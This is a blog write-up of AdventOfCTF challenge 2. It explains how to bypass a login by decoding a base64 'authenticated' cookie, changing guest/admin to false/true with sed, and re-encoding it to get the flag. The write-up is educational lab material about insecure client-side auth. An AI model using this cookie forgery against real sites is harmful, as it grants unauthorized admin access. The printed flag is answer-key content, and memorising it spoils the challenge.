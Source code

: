 +++
author = "Maik de Kruif"
title = "Challenge 2 - AdventOfCTF"
date = 2020-12-02T17:30:25+01:00
description = "Challenge 2 of AdventOfCTF."
cover = "img/adventofctf/948b1eb046c96865a05808660ee99e10.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 200

## Description

For the 2nd challenge you will need to bypass the login mechanism.

Visit <https://02.adventofctf.com> to start the challenge.

## Solution

When opening the website we're provided with a login form. If we fill in the form with random data, we're greeted with some text that says a guest cannot access the flag.

After trying serveral things, I opened the devtools to have a look at the cookies. Here we find a cookie with the name `authenticated`:

```cookie
authenticated=eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0%3D
```

The value of this cookie looks like a base64 encoded string so lets try to decode it:

_Note: in a url encoded string, the text `%3D` means a `=`._

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d
{"guest":"true","admin":"false"}%
```

The result is some JSON data which specifies whether we are a guest or an admin.

Normally, we can easily alter the string to say we're an admin, but this time there is some weird non-printable character at the end. This means we can't easily modify it while still having the correct response. To circumvent this, I'll use `sed` to replace the string while keeping the non-printable character:

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d | sed 's/"guest":"true"/"guest":"false"/g' | sed 's/"admin":"false"/"admin":"true"/g' | base64
eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0=
```

If we put this string back into the cookie and refresh the page we get the flag: `NOVI{cookies_are_bad_for_auth}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#2-3).
